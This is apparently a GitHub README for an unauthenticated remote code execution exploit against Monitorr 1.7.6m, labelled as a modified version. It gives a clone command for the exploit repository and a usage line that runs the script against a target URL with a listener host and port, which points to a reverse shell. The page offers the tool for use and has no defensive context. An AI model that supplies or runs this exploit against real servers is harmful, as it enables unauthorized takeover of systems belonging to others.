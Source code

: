 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Usage
``git clone https://github.com/valentinodev/monitorr_1.7.6m_remote_code_execution_modified.git``

``python exploit.py https://domain.com LHOST PORT``


